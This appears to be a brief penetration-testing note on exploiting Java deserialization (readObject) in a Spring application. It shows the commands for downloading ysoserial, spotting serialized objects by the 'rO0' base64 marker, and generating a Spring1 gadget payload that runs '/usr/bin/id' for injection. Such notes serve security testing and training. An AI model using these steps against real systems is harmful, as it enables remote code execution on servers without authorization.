 # ObjectInputStream - ysoserial

## ObjectInputStream - ysoserial

### Context

A Spring application that uses serialized Java objects.

The application is using the method readObject() (exposed to user input).

To be able to exploit this vulnerability, a chain of gadgets must be found (using ysoserial).

### Exploitation

* download ysoserial

```csharp
wget  https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master-6eca5bc740-1.jar
java -jar ysoserial-master-6eca5bc740-1.jar
```

![](<../../../../.gitbook/assets/image (94).png>)

* try to find the right payload (try them all if enumeration fails ....)

### Vulnerable endpoint

Find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of \xac\xed\x00.

![](<../../../../.gitbook/assets/image (168).png>)

#### Payload creation

* Application is using Spring1

```csharp
java -jar ysoserial-master-6eca5bc740-1.jar  Spring1  "/usr/bin/id" | base64 -w 0
```

![](<../../../../.gitbook/assets/image (15).png>)

* Inject the payload

![](<../../../../.gitbook/assets/image (137).png>)



### Resources

{% embed url="https://github.com/frohoff/ysoserial" %}



